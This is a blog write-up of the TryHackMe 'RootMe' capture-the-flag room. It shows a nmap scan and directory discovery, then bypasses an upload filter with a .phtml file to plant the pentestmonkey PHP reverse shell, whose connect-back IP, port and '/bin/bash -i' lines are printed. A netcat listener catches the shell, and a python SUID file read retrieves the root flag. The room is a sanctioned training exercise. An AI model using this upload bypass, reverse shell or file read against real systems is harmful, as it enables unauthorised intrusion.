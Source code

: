 ```yaml
---
tagline: rootme
title: THM | RootMe 
description: Another THM Privilege Escalation Machine 🔓
banner: /blog/rootmebanner.jpeg/
banner_alt: Root Me Banner (if u find this, send 4533454352234 to me in general to get a pinned message)
date: '2024-02-28'
---
```


## Nmap Scan

```bash:Terminal
┌──(vipin㉿vipin)-[~]
└─$ sudo nmap -sS -sV 10.10.102.215
[sudo] password for vipin: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-27 23:18 EST
Nmap scan report for 10.10.102.215
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.29 seconds
```

- We know that ports 22 & 80 are open, 22 is running ssh, and 80 is running http with *Apache 2.4.29*.

## Dirsearch

- While the room advises us to utilize *Gobuster*, I will instead use *Dirsearch*.

![Image showing the results of dirsearch](/blog/rootmepics/dirsearch.png 'Fig.1')

- The only hidden directory here is */panel/*

## Obtaining the User Flag

- When accessing */panel/*, we are greeted with a upload panel

![Image showing the upload panel](/blog/rootmepics/uploadpanel.png 'Fig.2')

- We might need to find or create a PHP script to upload. Looking at the hint proves us correct!

- I will be using [this PHP reverse shell script](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) for my attack. Make sure to change lines 49 & 50 with your Desired port & IP also change 54 with your desired shell.

``` bash:Terminal
49 $ip = '10.2.121.184';  // CHANGE THIS
50 $port = 4444;       // CHANGE THIS
···
54 $shell = 'uname -a; w; id; /bin/bash -i';
```

- My first method of bypassing the php filter did not work (it was *filename*.png.php) and I was greeted with this.

![Image showing the upload panel angry at me](/blog/rootmepics/phpuploaddenied.png 'Fig.3')

- Man, the thing is angry at me ☹️

- My next attempt was a .phtml and it uploaded! Make sure to go to */uploads* and click on the PHP script to run. AND I HAVE ACCESS!!!!

```bash:Terminal
# Note: Before I modified the script to use bash, I used sh
┌──(vipin㉿vipin)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.2.121.184] from (UNKNOWN) [10.10.102.215] 48754
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 05:09:16 up  1:05,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
cat /var/www/user.txt
THM{XXXXXXXXXXXX}
```

- Time to nap nap😴, let me finish this tmrw!

## Getting The Root Flag

- I started by running the command in the hint, with that there were only a select few that were unusual with */usr/bin/python* being one.

- Using [gtfobins file read exploit](https://gtfobins.github.io/gtfobins/python/#file-read) for python we get this.

```bash:Terminal
www-data@rootme:/$ python -c 'print(open("/root/root.txt").read())' 
python -c 'print(open("/root/root.txt").read())'
THM{XXXXXXXXXXXXXXXXXXX}
```

## Closure

Hope you enjoyed this writeup, I enjoyed it very much and found the [Python File read exploit]((https://gtfobins.github.io/gtfobins/python/#file-read)) very interesting. Feel free to check out more @ other writeups [here](https://www.vipinb.xyz/blog)!

![My Tryhackme badge](https://tryhackme-badges.s3.amazonaws.com/vipin.b.png)
